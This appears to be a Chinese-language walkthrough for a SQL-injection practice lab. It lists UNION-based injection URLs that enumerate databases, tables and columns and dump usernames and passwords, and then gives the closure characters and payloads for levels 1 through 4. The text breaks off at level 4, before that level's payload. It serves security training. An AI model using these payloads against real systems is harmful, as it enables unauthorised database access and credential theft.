 ###### 爆所有库名

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php
?id=-1 union select 1,user(),group_concat(schema_name)
 from information_schema.schemata
```

###### 爆security库名中的所有表名

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php
?id=-1 union select 1,2, group_concat(TABLE_NAME)
 from information_schema.TABLES WHERE TABLE_SCHEMA=database();
```

###### 爆security库名中users表中的所有字段

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php
?id=-1 union select 1,2, group_concat(column_name)
 from information_schema.columns
 WHERE TABLE_SCHEMA=database() and table_name="users"
```

###### 爆users表中的用户，密码

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php
?id=-1 union select 1,group_concat(username), group_concat(password)
from users
```

##### 第1关

类型：字符型 

构造闭合符号：`'`

payload：`?id=-1' union select 1,2,database() -- s `

##### 第2关

类型：数字型

payload：`?id=-1 union select 1,2,database() -- s`

##### 第3关

类型：字符型 

构造闭合符号：单引号`'`+括号`)`

payload：`?id=-1') union select 1,2,database() -- s`

##### 第4关

类型：字符型

构造闭合符号：双引号`"`+括号`)`
